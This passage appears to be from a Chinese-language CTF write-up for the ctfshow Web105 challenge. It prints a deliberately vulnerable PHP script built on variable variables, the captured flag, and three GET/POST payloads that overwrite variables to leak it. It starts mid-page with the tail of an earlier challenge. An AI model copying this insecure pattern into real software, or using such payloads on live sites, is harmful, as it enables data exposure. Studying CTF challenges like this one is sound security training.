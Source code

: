 ```php



?>
```

传入两个相同参数就行

## Web105

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: Firebasky
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-28 22:34:07

*/

highlight_file(__FILE__);
include('flag.php');
error_reporting(0);
$error='你还想要flag嘛？';
$suces='既然你想要那给你吧！';
foreach($_GET as $key => $value){
    if($key==='error'){
        die("what are you doing?!");
    }
    $$key=$$value;
}foreach($_POST as $key => $value){
    if($value==='flag'){
        die("what are you doing?!");
    }
    $$key=$$value;
}
if(!($_POST['flag']==$flag)){
    die($error);
}
echo "your are good".$flag."\n";
die($suces);

?>
your are good ctfshow{c7a1f2bc-f195-45a0-9a30-44b41534eb95}
```

payload：

```
?suces=flag&flag=
?suces=flag POST error=suces
?suces=flag&你还想要flag嘛？=error POST flag=你还想要flag嘛？
```
